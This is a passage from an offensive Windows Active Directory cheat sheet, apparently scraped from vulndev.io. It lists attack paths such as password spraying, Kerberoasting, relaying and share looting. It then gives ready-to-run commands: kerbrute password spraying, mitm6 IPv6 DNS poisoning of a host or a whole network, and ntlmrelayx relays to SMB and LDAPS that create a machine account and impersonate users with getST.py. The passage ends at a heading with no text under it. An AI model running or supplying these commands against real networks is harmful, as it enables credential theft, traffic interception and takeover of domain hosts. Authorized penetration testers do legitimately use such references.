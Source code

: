 ##
#
https://vulndev.io/cheats-windows/
#
##

Active Directory

Quick Wins

    Spoofing/Relaying (NBTNS/LLMNR, MitM6, Honeypotting)
    Password Spraying / Phishing
    Kerberoast / Asreproast & Cracking
    Weak ACLs via Bloodhound
    Credential Reuse
    Looting Shares
    AD CVEs
    SSH with domain accounts to linux machines
    Coercing Authentication & Relaying (e.g. ADCS, SMB)

Password Spraying

Tools: kerbrute
kerbrute passwordspray -d example.com --dc <dcip> users.txt <password to spray>

IPv6 DNS Takeover & Relay

Requirements: IPv6 enabled
Result: Traffic interception
Tools: mitm6, impacket
# give yourself any ipv6 address
ip -6 addr add fe80::13:37/10 dev <iface>
# poison single host
mitm6 -hw <host> -d <domain> --ignore-nofqdn
# poison whole network
mitm6 -d <net>
# relay to smb in order to open a socks connection
ntlmrelayx.py -6 -wh <net> -t smb://<ip> -l ~/tmp/ -socks -debug
# relay to dlap in order to create a new machine account, which gives us local system on the poisoned box
ntlmrelayx.py -t ldaps://<dc>.<domain> -wh attacker-wpad --delegate-access
# impersonate user on overtaken machine account
getST.py -spn cifs/<original computer acc>.<domain>/<new computer acc> -impersonate <user>

Update DNS Records
